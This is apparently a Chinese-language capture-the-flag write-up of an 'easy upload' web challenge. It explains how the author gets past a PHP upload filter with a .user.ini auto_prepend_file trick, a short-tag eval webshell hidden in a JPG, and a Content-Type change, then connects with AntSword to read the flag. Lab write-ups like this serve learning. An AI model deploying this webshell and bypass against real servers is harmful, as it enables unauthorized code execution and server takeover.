







【攻防世界】web 新手题 

题目描述：一名合格的黑客眼中，所有的上传点都是开发者留下的后门。

我的题解过程：

​	看到这个题目是”easy“upload，easy啊，那应该没啥防护，直接上传一个带有木马的php文件，发现上传不成功，又试着上传一个带有木马jpg文件，发现还是不行，说明存在过滤或者防护，首先判断前端还是后端，然后又判断黑名单验证还是白名单验证。几乎试了所有绕过的方法，后缀名+空格、php3、php4、phtml等等

​	对上传内容逐一实验，发现上传的内容不能又php字符（.htaccess也不能使用）即便可以通过短标签绕过<?=eval($_POST[111]);?>

成功上传，但是无法访问，会显示not found，说明除了index.php可以解析，其它php文件它都不会解析

​	后面查阅了资料，才知道，原来这题是需要用到.user.ini命名的一个文件。

​	解：

创建.user.ini文件并且在文件中写入：auto_prepend_file='a.jpg'然后在a.jpg中写入一句话木马<?php eval($_POST[111]);?>。

auto_prepend_file的用法：

auto_prepend_file可以让所有的php文件自动的包含某个文件。

将写好的.user.ini文件上传，修改content-type为能够解析该文件的格式（这里需要用到bp抓包）也可以直接爆破，如果有这种类型的密码本。

爆破出来后，这些类型都可使用。

​	成功上传.user.ini文件后，接着需要上传a.jpg（带有木马的图片）

这里需要简单修改，不然不能上传，需要用短标签绕过，

成功上传并且显示上传后的文件路径：

接下来 ，我们使用蚁剑连接一下：

连接后，在里面找到flag：

总结：让我学到新的方法，使用.user.ini文件进行绕过。

#CTF #Web安全 #Misc新手题
